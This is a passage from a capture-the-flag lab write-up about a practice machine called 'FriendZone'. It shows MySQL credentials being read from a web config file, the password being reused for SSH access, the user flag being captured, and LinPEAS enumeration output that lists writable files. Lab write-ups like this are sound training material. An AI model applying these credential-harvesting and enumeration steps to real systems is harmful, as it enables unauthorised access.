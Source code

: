 and we are inside! After poking around the web-service files, I stumbled upon a file named `mysql_data.conf`, which contained the following content:

```bash
$ pwd
/var/www/friendzone
$ ls
admin
friendzone
friendzoneportal
friendzoneportaladmin
html
mysql_data.conf
uploads
$ cat mysql_data.conf
for development process this is the mysql creds for user friend

db_user=friend

db_pass=Agpyu12!0.213$

db_name=FZ
```

Revealing the friend user password to be `Agpyu12!0.213$`. Even though this password might be for MySQL service, we can try to use it to SSH into the machine as `friend`. We will see that this is actually the SSH user's password as well:

```bash
friend@FriendZone:~$ id
uid=1000(friend) gid=1000(friend) groups=1000(friend),4(adm),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
friend@FriendZone:~$ cat user.txt
627c48e56e0344b5b54fcd021f9bc8aa
```

## [](#step3-crafting-the-attack)Step 3 - System enumeration

Using LinPEAS, I was able to enumerate the machine and find group writable files. These are the ones that are most interesting to me:

```bash
╔══════════╣ Interesting writable files owned by me or writable by everyone (not in Home) (max 500)
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#writable-files                                                      
/dev/mqueue                                                                                                                            
/dev/shm
/etc/Development
/etc/Development/creds.txt
/etc/Development/hacked.php
/etc/Development/rev-shell.php
/etc/Development/test.php
/etc/sambafiles
/home/friend
/run/lock
/run/user/1000
/run/user/1000/gnupg
/run/user/1000/systemd
/tmp
/tmp/.font-unix
/tmp/.ICE-unix
/tmp/.Test-unix
/tmp/.X11-unix
/tmp/.XIM-unix
```